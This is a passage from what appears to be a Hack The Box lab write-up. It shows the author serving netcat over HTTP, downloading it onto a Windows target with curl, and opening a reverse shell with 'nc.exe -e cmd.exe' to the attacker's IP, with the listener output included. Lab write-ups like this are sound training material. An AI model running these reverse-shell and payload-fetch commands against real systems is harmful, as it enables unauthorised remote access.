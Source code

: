 This is a git command line, we want to get the `powershell` here. I will upload a `nc.exe` to help us get the reverse shell
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Compiled]
└─$ ls /opt/nc                   
Makefile  doexec.c  generic.h  getopt.c  getopt.h  hobbit.txt  license.txt  nc.exe  nc64.exe  netcat.c  readme.txt  shell.bat
                                                                                                                                                                                
┌──(wither㉿localhost)-[~/Templates/htb-labs/Compiled]
└─$ cd /opt/nc
                                                                                                                                                                                
┌──(wither㉿localhost)-[/opt/nc]
└─$ python3 -m http.server 80                                                                                                               
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.26 - - [26/Jul/2025 15:55:15] "GET /nc.exe HTTP/1.1" 200 -
10.10.11.26 - - [26/Jul/2025 15:55:30] "GET /nc.exe HTTP/1.1" 200 -
```

Then from the target machine
```
Richard@COMPILED MINGW64 /c/programdata
$ pwd
pwd
/c/programdata

Richard@COMPILED MINGW64 /c/programdata
$ curl 10.10.14.5/nc.exe -o ./nc.exe
curl 10.10.14.5/nc.exe -o ./nc.exe

Richard@COMPILED MINGW64 /c/programdata
$ dir
dir
Datos\ de\ programa        Package\ Cache        WindowsHolographicDevices
Documentos                 Packages              nc.exe
Escritorio                 Plantillas            ntuser.pol
Menú\ Inicio               SoftwareDistribution  regid.1991-06.com.microsoft
Microsoft                  USOPrivate            ssh
Microsoft\ OneDrive        USOShared
Microsoft\ Visual\ Studio  VMware

Richard@COMPILED MINGW64 /c/programdata
$ ./nc.exe -e cmd.exe 10.10.14.5 443
./nc.exe -e cmd.exe 10.10.14.5 443

```

Then we can get the reverse shell of `Richard`
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Compiled]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.26] 52673
Microsoft Windows [Version 10.0.19045.4651]
(c) Microsoft Corporation. All rights reserved.

C:\programdata>whoami
whoami
Richard

C:\programdata>

```
